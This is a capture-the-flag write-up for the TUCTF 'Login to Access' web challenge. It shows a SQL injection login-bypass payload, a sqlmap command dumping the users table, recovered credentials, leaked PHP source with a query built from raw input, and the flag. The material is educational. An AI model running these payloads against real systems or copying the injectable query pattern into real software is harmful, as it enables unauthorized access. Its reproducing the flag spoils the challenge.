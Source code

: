# Login to Access(Web) - Writeup

## Question

```
If at first you don't login, maybe back up.

http://chal.tuctf.com:30001/
```

## Answer
When you access the specified URL, the username and password input screen is displayed.

````
root@kali:~# curl http://chal.tuctf.com:30001/
<html>
    <head>
        <title>Login to Access Fun Files</title>
        <link href="login.css" rel="stylesheet" type="text/css">
    </head>
    <form method="POST" action="login.php">
          <div class="container">
                <label for="uname"><b>Username</b></label>
                <input type="text" placeholder="Enter Username" name="username" required>

                <label for="psw"><b>Password</b></label>
                <input type="password" placeholder="Enter Password" name="password">

                <button type="submit">Login</button>
          </div>

    </form> 
</html>
````

Username has a SQLinjection vulnerability, and you can see that login.html exists by entering the following:

````
username：' or 'a'='a' -- 
password：<ANY>
````

→ http://chal.tuctf.com:30001/login.html


If you check with blind sqlinjection, you can login with username: dave / password: hunter2.

````
sqlmap -u "http://chal.tuctf.com:30001/login.php" --method POST --cookie "PHPSESSID=jgv9pdbrtsdjp7jrqa6q3ciqen" --data "username=123&password=123" --columns -D challenge -T users

Database: challenge
Table: users
[2 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| user     | varchar(20) |
| password | varchar(50) |
+----------+-------------+
````


Further confirmation, there is a login.php.bak file, flag is described.

````
root@kali:~# curl http://chal.tuctf.com:30001/login.php.bak
<?php
      $username = $_POST["username"];
      $password = $_POST["password"];
    $flag = "TUCTF{b4ckup5_0f_php?_1t5_m0r3_c0mm0n_th4n_y0u_th1nk}";
      $query = "SELECT * FROM users WHERE user='$username' AND password='$password'";

    if (true){
        echo '<link href="login.css" rel="stylesheet" type="text/css">';
                echo "<h1>Login failed.</h1>";
    }
      else {
        $result = mysqli_query($conn,$query);
            $row = mysqli_fetch_array($result,MYSQLI_NUM);

            if ($row) {
            echo "<title>You found it!</title>";
                    echo '<link href="login.css" rel="stylesheet" type="text/css">';
                    echo "<h1>$flag</h1>";
        } 
        else {
            echo '<link href="login.css" rel="stylesheet" type="text/css">';
                  echo "<h1>Login failed.</h1>";
            }
      }

?>
````

###### TUCTF{b4ckup5_0f_php?_1t5_m0r3_c0mm0n_th4n_y0u_th1nk}
